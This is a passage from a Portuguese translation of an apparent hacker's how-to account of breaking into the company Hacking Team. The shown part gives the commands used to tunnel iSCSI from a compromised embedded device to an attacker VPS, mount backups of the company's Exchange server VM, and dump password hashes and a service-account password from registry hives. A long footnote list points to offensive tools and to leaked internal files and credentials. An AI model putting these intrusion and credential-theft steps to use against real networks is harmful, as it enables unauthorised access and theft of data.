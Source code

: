 ~~~
~~~
O iSCSI precisa de um módulo de kernel e seria difícil compilá-lo para o sistema embarcado. Encaminhei a porta para que pudesse montá-la a partir de um VPS:
~~~
VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1
~~~
Agora o iSCSI encontra o nome iqn.2000-01.com.synology, mas tem problemas para montá-lo porque pensa que seu IP é 192.168.200.72 em vez de 127.0.0.1

A maneira como resolvi foi:
~~~
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1
~~~

E agora, depois:
~~~
iscsiadm -m node --targetname=iqn.2000-01.com.synology:synology-backup.name -p 192.168.200.72 --login
~~~

...o arquivo do dispositivo aparece! Nós montamos isso:
~~~
vmfs-fuse -o ro /dev/sdb1 /mnt/tmp
~~~

e encontrar backups de várias máquinas virtuais. O servidor Exchange parecia o mais interessante. Era muito grande para baixar, mas foi possível montá-lo remotamente para procurar arquivos interessantes:
~~~
$ losetup /dev/loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l /dev/loop0
/dev/loop0p1            2048  1258287103   629142528    7  HPFS/NTFS/exFAT
~~~

então o deslocamento é 2048 * 512 = 1048576
~~~
$ losetup -o 1048576 /dev/loop1 /dev/loop0
$ mount -o ro /dev/loop1 /mnt/exchange/
~~~

agora em /mnt/exchange/WindowsImageBackup/EXCHANGE/Backup 2014-10-14 172311
encontramos o disco rígido da VM e o montamos:
~~~
vdfuse -r -t VHD -f f0f78089-d28a-11e2-a92c-005056996a44.vhd /mnt/vhd-disk/
mount -o loop /mnt/vhd-disk/Partition1 /mnt/part1
~~~
...e finalmente descompactamos a boneca russa e podemos ver todos os arquivos do antigo servidor Exchange em /mnt/part1

[^55]: https://ht.transparencytoolkit.org/FileServer/FileServer/Hackingteam/InfrastrutturaIT/Rete/infrastruttura%20ht.pdf

## 10 - Bbackups para Domain Admin

O que mais me interessou no backup foi ver se tinha uma senha ou hash que pudesse ser usada para acessar o servidor live. Usei pwdump, cachedump e lsadump[^56] nas seções do registro. lsadump encontrou a senha da conta de serviço besadmin:


[^1]: http://pastebin.com/raw.php?i=cRYvK4jb
[^2]: https://en.wikipedia.org/wiki/Citizens%27_Commission_to_Investigate_the_FBI
[^3]: http://www.aljazeera.com/news/2015/09/algerian-hacker-hero-hoodlum-150921083914167.html
[^4]: https://securelist.com/files/2015/02/Carbanak_APT_eng.pdf
[^5]: http://madrid.cnt.es/noticia/consideraciones-sobre-el-ataque-informatico-a-gamma-group
[^6]: http://www.animalpolitico.com/2015/07/el-gobierno-de-puebla-uso-el-software-de-hacking-team-para-espionaje-politico/
[^7]: http://www.prensa.com/politica/claves-entender-Hacking-Team-Panama_0_4251324994.html
[^8]: http://www.24-horas.mx/ecuador-espio-con-hacking-team-a-opositor-carlos-figueroa/
[^9]: https://citizenlab.org/2012/10/backdoors-are-forever-hacking-team-and-the-targeting-of-dissent/
[^10]: https://citizenlab.org/2014/02/hacking-team-targeting-ethiopian-journalists/
[^11]: https://citizenlab.org/2015/03/hacking-team-reloaded-us-based-ethiopian-journalists-targeted-spyware/
[^12]: http://focusecuador.net/2015/07/08/hacking-team-rodas-paez-tiban-torres-son-espiados-en-ecuador/
[^13]: http://www.pri.org/stories/2015-07-08/these-ethiopian-journalists-exile-hacking-team-revelations-are-personal
[^14]: https://theintercept.com/2015/07/07/leaked-documents-confirm-hacking-team-sells-spyware-repressive-countries/
[^15]: http://www.wired.com/2013/06/spy-tool-sold-to-governments/
[^16]: http://www.theregister.co.uk/2015/07/13/hacking_team_vietnam_apt/
[^17]: http://www.ilmessaggero.it/primopiano/cronaca/yara_bossetti_hacking_team-1588888.html
[^18]: http://motherboard.vice.com/en_ca/read/hacking-team-founder-hey-fbi-we-can-help-you-crack-the-dark-web
[^19]: https://www.torproject.org/
[^20]: https://info.securityinabox.org/es/chapter-4
[^21]: https://www.whonix.org/
[^22]: https://tails.boum.org/
[^23]: https://www.qubes-os.org/doc/privacy/torvm/
[^24]: https://trac.torproject.org/projects/tor/wiki/doc/TransparentProxy
[^25]: https://www.whonix.org/wiki/Comparison_with_Others
[^26]: https://blog.torproject.org/blog/tor-security-advisory-relay-early-traffic-confirmation-attack/
[^27]: http://www.wifislax.com/
[^28]: https://www.torproject.org/docs/bridges.html.en
[^29]: http://www.documentcloud.org/documents/1342115-timeline-correlation-jeremy-hammond-and-anarchaos.html
[^30]: http://www.nytimes.com/2015/12/27/business/dealbook/the-unsung-tax-agent-who-put-a-face-on-the-silk-road.html
[^31]: http://web.archive.org/web/20140610083726/http://www.soulblack.com.ar/repo/papers/hackeando_con_google.pdf
[^32]: http://ha.ckers.org/fierce/
[^33]: https://github.com/laramies/theHarvester
[^34]: https://bitbucket.org/LaNMaSteR53/recon-ng
[^35]: https://nmap.org/
[^36]: https://zmap.io/
[^37]: https://github.com/robertdavidgraham/masscan
[^38]: http://www.morningstarsecurity.com/research/whatweb
[^39]: http://blindelephant.sourceforge.net/
[^40]: https://github.com/laramies/metagoofil
[^41]: https://www.elevenpaths.com/es/labstools/foca-2/index.html
[^42]: http://www.hacknbytes.com/2016/01/apt-pentest-con-empire.html
[^43]: http://blog.cobaltstrike.com/2015/09/30/advanced-threat-tactics-course-and-notes/
[^44]: http://www.netcomunity.com/lestertheteacher/doc/ingsocial1.pdf
[^45]: http://pastebin.com/raw.php?i=cRYvK4jb
[^46]: http://sourceforge.net/projects/joomscan/
[^47]: http://www.devttys0.com/
[^48]: https://docs.google.com/presentation/d/1-mtBSka1ktdh8RHxo2Ft0oNNlIp7WmDA2z9zzHpon8A
[^49]: https://www.shodan.io/search?query=product%3Amongodb
[^50]: https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
[^51]: http://archives.neohapsis.com/archives/vulnwatch/2004-q3/0001.html
[^52]: http://downloads.securityfocus.com/vulnerabilities/exploits/hoagie_mysql.c
[^53]: http://archives.neohapsis.com/archives/bugtraq/2000-02/0053.html
[^54]: https://ht.transparencytoolkit.org/audio/
[^56]: https://github.com/Neohapsis/creddump7
[^57]: http://proxychains.sourceforge.net/
[^58]: https://www.samba.org/
[^59]: http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf
[^60]: https://github.com/gentilkiwi/mimikatz
[^62]: https://adsecurity.org/?page_id=1821
[^63]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
[^64]: https://github.com/PowerShellEmpire/Empire/blob/master/data/module_source/privesc/Invoke-BypassUAC.ps1
[^65]: https://technet.microsoft.com/en-us/sysinternals/psexec.aspx
[^66]: https://sourceforge.net/projects/winexe/
[^67]: https://www.rapid7.com/db/modules/exploit/windows/smb/psexec_psh
[^68]: http://www.powershellempire.com/?page_id=523
[^69]: http://blog.cobaltstrike.com/2014/04/30/lateral-movement-with-high-latency-cc/
[^70]: https://github.com/byt3bl33d3r/pth-toolkit
[^71]: https://github.com/CoreSecurity/impacket/blob/master/examples/wmiexec.py
[^72]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^73]: http://www.powershellempire.com/?page_id=124
[^74]: http://www.maquinasvirtuales.eu/ejecucion-remota-con-powershell/
[^75]: https://adsecurity.org/?p=2277
[^76]: https://www.secureworks.com/blog/where-you-at-indicators-of-lateral-movement-using-at-exe-on-windows-7-systems
[^77]: https://github.com/PowerShellEmpire/Empire/blob/master/lib/modules/lateral_movement/new_gpo_immediate_task.py
[^78]: https://www.indetectables.net/viewtopic.php?p=211165
[^79]: https://adsecurity.org/?page_id=1821
[^80]: https://github.com/bidord/pykek
[^81]: https://adsecurity.org/?p=676
[^82]: http://www.hackplayers.com/2014/12/CVE-2014-6324-como-validarse-con-cualquier-usuario-como-admin.html
[^83]: https://github.com/n1nj4sec/pupy
[^84]: http://www.powershellempire.com/?page_id=273
[^85]: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps1
[^86]: http://blog.cobaltstrike.com/2014/05/14/meterpreter-kiwi-extension-golden-ticket-howto/
[^87]: http://www.harmj0y.net/blog/empire/nothing-lasts-forever-persistence-with-empire/
[^88]: http://www.hexacorn.com/blog/category/autostart-persistence/
[^89]: https://blog.netspi.com/tag/persistence/
[^90]: https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView
[^91]: http://www.harmj0y.net/blog/tag/powerview/
[^92]: http://www.harmj0y.net/blog/powershell/veil-powerview-a-usage-guide/
[^93]: http://www.harmj0y.net/blog/redteaming/powerview-2-0/
[^94]: http://www.harmj0y.net/blog/penetesting/i-hunt-sysadmins/
[^95]: http://www.slideshare.net/harmj0y/i-have-the-powerview
[^96]: https://adsecurity.org/?p=2535
[^97]: https://www.youtube.com/watch?v=rpwrKhgMd7E
[^98]: https://github.com/mubix/netview
[^99]: https://blogs.msdn.microsoft.com/rcormier/2013/03/30/how-to-perform-bulk-downloads-of-files-in-sharepoint/
[^100]: https://adsecurity.org/?page_id=41
[^101]: http://www.darkoperator.com/?tag=Active+Directory
[^102]: https://github.com/PowerShellMafia/PowerSploit
[^103]: https://github.com/samratashok/nishang
[^104]: http://hacking.technology/Hacked%20Team/FileServer/FileServer/Hackingteam/InfrastrutturaIT/
[^105]: http://www.hammer-software.com/wmigphowto.shtml
[^106]: https://www.trustedsec.com/june-2015/no_psexec_needed/
[^107]: https://gallery.technet.microsoft.com/scriptcenter/PowerShell-Credentials-d44c3cde
[^108]: http://pwnwiki.io/#!presence/windows/find_files.md
[^109]: http://archive.is/TbaPy
[^110]: http://hacking.technology/Hacked%20Team/c.pozzi/screenshots/
[^111]: http://hacking.technology/Hacked%20Team/c.pozzi/Desktop/you.txt
[^112]: http://hacking.technology/Hacked%20Team/c.pozzi/credentials/
[^113]: http://hacking.technology/Hacked%20Team/c.pozzi/Truecrypt%20Volume/Login%20HT.txt
[^114]: http://seclists.org/fulldisclosure/2014/Oct/78
[^115]: https://twitter.com/coracurrier/status/618104723263090688
[^116]: http://andres.delgado.ec/2016/01/15/el-miedo-de-vigilar-a-los-vigilantes/
[^117]: https://twitter.com/CthulhuSec/status/619459002854977537